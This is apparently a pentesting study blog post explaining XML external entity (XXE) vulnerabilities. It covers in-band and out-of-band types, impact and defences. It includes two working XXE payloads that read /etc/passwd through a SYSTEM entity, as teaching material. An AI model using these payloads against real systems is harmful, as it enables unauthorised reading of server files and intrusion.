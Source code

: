 ```yaml
---
layout: post
title: xml external entity (XXE) vulnerabilities
date: 2025-02-22
description: xml external entity (XXE) vulnerabilities
tags: theory web exploitation 
categories: pentesting
featured: false
toc:
  sidebar: left
---
```


app uses untrusted xml-documents - e.g. provided by the user
xml files are generated based on user input without input validation 

**2 Types:**
1.  in-band XXE: attacker receives immediate response to payload
2.  out-of-band XXE: no immediate respone, output has to be reflected to some file or server

## Examples
hort xml file to read the contents of /etc/passwd
``` xml
<?xml version="1.0" ?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
<entry id="1">
	<title>&xxe;</title>
	<content>Here is some content...</content>
</entry>
```
sometimes, the xml version has to be downgraded to a certain encoding:
``` xml
<?xml version="1.0" encoding="ISO-8859-1" ?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
<entry id="1">
	<title>&xxe;</title>
	<content>Here is some content...</content>
</entry>
```
### Impact
- attackers can interact with backand or external systems
- readout of local files
- DoS attacks
### Defense
- use secure and updated xml-parser and SOAP framework
- deactivate parsing of DTDs (Document type definitions)
- validate data that is insertedinto an xml file
- validate xml file against xms 